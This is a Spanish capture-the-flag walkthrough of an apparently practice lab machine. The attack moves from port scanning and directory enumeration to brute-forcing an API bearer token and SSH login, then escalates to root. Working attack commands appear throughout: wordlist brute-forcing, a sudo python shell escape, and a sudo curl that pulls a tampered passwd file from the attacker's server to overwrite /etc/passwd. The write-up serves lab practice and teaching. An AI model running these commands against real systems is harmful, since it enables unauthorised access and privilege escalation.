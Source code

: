 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![image](https://github.com/user-attachments/assets/6cd6e0a2-07ab-4874-be96-ca4646d644df)

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![image](https://github.com/user-attachments/assets/61cb2c5e-63f7-4eb6-abf2-0d7dcadce5e8)

hacemos un gobuster

![image](https://github.com/user-attachments/assets/05c80861-d4eb-4b1b-a349-56cdcd0beaad)

y nos da "users", lo probamos

![image](https://github.com/user-attachments/assets/f63bc726-1636-48bd-a84e-69a8bb5b039b)

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/4acb1075-cd47-42e6-9fdb-43ba010f6058)

![image](https://github.com/user-attachments/assets/b6c688fc-31f7-49db-82ea-b472b35e5996)

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![image](https://github.com/user-attachments/assets/cb1e8a2d-6a50-400c-9fe9-a9e905f123b2)

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![image](https://github.com/user-attachments/assets/fcfaa2e0-7165-4d07-a781-bdd9f0ff1eb5)

obtenemos a "bob" y "password1" y tenemos la conexion

![image](https://github.com/user-attachments/assets/ae41145a-bf80-43de-a64e-404bc3e0ca35)

dentro tenemos esto

![image](https://github.com/user-attachments/assets/a120b915-9440-4141-863f-60d680423e99)

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/871ece54-cf63-483a-8345-3fc0a733595e)

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![image](https://github.com/user-attachments/assets/1b8f12b8-4ccc-4ddd-a6fd-b3d74c0b4dc6)

tenemos dentro un curl 

![image](https://github.com/user-attachments/assets/27228485-12ca-467b-8088-22bdcaa04472)

lo buscamos en gtf igual

![image](https://github.com/user-attachments/assets/a710f529-f3a5-4079-a34d-f7f5dca66292)

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![image](https://github.com/user-attachments/assets/31c0fc41-4111-43fe-a2e3-45917d09aedf)

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![image](https://github.com/user-attachments/assets/1f2796d2-1a28-4920-b328-3cbcca474db6)

ahora verificamos que se remplazo el archivo por el modificado

![image](https://github.com/user-attachments/assets/6ccb9951-f25f-4284-9593-5e0952e42a68)

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 

